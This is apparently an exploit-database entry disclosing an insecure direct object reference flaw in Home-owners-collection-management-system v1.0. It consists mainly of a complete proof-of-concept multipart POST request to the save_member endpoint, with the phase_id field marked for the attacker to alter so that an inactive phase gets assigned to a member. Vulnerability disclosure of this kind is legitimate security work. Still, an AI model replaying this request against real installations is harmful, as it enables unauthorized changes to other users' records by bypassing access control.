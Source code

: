 # Exploit Title: Home-owners-collection-management-system v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Home-owners-collection-management-system v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add a phase who is inactive to a member(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /hocms/classes/Master.php?f=save_member HTTP/1.1
...

------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="firstname"

Mark
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="middlename"

D
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="lastname"

Cooper
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="gender"

Male
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="contact"

09123456789
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="phase_id"

2(CHANGE HERE)
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="block"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="lot"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundarybA3n4qir7MSNLBSp--

```
